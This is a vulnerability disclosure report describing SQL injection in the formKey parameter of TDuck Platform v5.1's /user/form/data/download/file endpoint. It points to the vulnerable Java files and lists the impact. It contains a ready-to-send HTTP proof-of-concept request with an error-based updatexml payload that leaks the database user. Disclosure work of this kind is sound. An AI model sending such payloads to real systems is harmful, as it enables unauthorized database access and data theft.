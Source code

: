 

### 💥 Vulnerability Report : SQL Injection in **TDuck Platform v5.1**

------

**1. Product:**

- **Name:** TDuck Platform
- **Version:** Community Edition v5.1
- **Repository:** https://gitee.com/TDuckApp/tduck-platform  /  https://github.com/TDuckCloud/tduck-platform

------

**2. Vulnerability Type:**

- **Type:** SQL Injection (SQLi)

------

**3. Affected Component(s):**

- `POST /user/form/data/download/file`

------

**4. Attack Vector(s):**

An u attacker can exploit the `formKey` parameter in the `/user/form/data/download/file` endpoint by injecting malicious SQL expressions. The backend uses the parameter in dynamic SQL construction without proper input sanitization or parameterized queries, leading to SQL injection.

------

**5. Proof of Concept (PoC):**

```
POST /user/form/data/download/file HTTP/1.1
Host: 192.168.147.145:8999
Content-Type: application/json
token: <valid_token>
Content-Length: 73

{"formKey": "' and updatexml(1,concat(0x7e,(select user()),0x7e),1)-- -"}
```

If vulnerable, the response will contain an error message such as:

![image-20250713102526807](./assets/image-20250713102526807.png)

This confirms that the SQL injection is successful and discloses database user information.



**6. Vulnerable Code Reference**

​	src/main/java/com/tduck/cloud/form/mapper/UserFormDataMapper.java

![image-20250713105512899](./assets/image-20250713105512899.png)

​	src/main/java/com/tduck/cloud/form/service/data/FormDataMysqlService.java

![image-20250713105616120](./assets/image-20250713105616120.png)

​	This code concatenates the `formKey` parameter received from the client (`request.getFormKey()`) directly into an SQL statement without any sanitization or use of parameterized queries. As a result, an attacker can inject arbitrary SQL code through the `formKey` parameter, leading to a SQL Injection vulnerability.



------

**7. Impact:**

- Data leakage (e.g., database users, names)
- Potential unauthorized access
- Escalation to full compromise depending on DBMS

------

**8. References:**

- [Gitee Project Link](https://gitee.com/TDuckApp/tduck-platform)
- 